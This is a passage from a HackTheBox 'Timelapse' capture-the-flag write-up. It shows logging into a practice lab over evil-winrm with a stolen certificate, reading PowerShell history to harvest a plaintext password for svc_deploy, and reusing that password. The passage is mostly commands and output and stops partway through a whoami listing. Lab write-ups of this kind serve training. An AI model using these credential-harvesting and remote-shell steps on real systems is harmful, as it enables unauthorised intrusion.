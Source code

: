 Now we'll use ```evil-winrm``` to login with the ```certificate``` and ```key```.

```
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ evil-winrm -i 10.10.11.152 -c legacyy.crt -k legacyy.key -S

Evil-WinRM shell v3.3

Enter PEM pass phrase:thuglegacy
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\legacyy\Desktop> cat user.txt
a******************************8
*Evil-WinRM* PS C:\Users\legacyy\Desktop> 
```

## Lateral Movement

Analyzing the ```winPEAS``` output we found something interesting.

```
ÉÍÍÍÍÍÍÍÍÍÍ¹ Analyzing Windows Files Files (limit 70)
    C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    C:\Users\Default\NTUSER.DAT
    C:\Users\legacyy\NTUSER.DAT
```

Reading the ```ConsoleHost_history.txt``` file.

```
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We got credentials of another user ```svc_deploy```.

Logging into ```svc_deploy```.

```
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ evil-winrm -S -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'

Evil-WinRM shell v3.3

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== ============================================
timelapse\svc_deploy S-1-5-21-671920749-559770252-3318990721-3103


GROUP INFORMATION
```